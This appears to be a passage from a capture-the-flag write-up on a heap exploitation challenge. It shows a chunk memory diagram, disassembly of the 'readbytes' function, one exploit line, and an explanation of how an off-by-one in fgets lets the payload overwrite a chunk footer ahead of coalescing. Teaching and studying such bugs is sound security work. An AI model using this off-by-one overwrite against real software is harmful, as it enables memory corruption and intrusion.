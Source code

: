 ```      
0x625180:   0x0000000000000031   0x0000000000000031 <-- chunk 8
           +------------------+ +-------------------+   <----+
           |   [read_bytes]   | |     [dataptr]     |        |
0x625190:  |0x0000000000000051|	| 0x00000000006251c0|        |
           +------------------+ +-------------------+        |  alloc'd wisdom
           +------------------+ +-------------------+        |
           |                    |    [Neonate\n]    |        |
0x6251a0:  |0x0000000000000008|	| 0x0000000000401d61|        |
           +------------------+ +-------------------+   <----+ 
```

`readbytes` is the function responsible for reading our data in both allocation and edit. There's a particular feature in it which makes it quite juicy.

```asm
<edit>
mov     rax, qword [rbp-0x8 {chunk}]
mov     rax, qword [rax]
mov     edx, eax
mov     rax, qword [rbp-0x8 {chunk}]
mov     rax, qword [rax+0x8]
mov     esi, edx
mov     rdi, rax
call    readbytes
```

```asm
<readbytes>
push    rbp
mov     rbp, rsp
sub     rsp, 0x10 {var_18}
mov     qword [rbp-0x8 {ptr}], rdi
mov     dword [rbp-0xc {size}], esi
mov     rdx, qword [rel stdin]
mov     eax, dword [rbp-0xc]
add     eax, 0x1 <-- !!!
mov     ecx, eax
mov     rax, qword [rbp-0x8]
mov     esi, ecx
mov     rdi, rax
call    fgets
```

We have the following line in the exploit:

```python
edit(9, 'A'*(0x30) + p8(0xd0))
```

According to `readbytes`, it will read in `size + 0x1` bytes and store it in the data pointer. Meaning 0x32, where the 0x32th byte will be the null byte (that's how `fgets` works). Chunk 9's data pointer is `0x625250`. `0x625250 + 0x32 == 0x625282`. That means we get to overwrite the `footer` field of chunk 9's data pointer whose usage is crucial for the `coalesce` function which we will inspect soon.
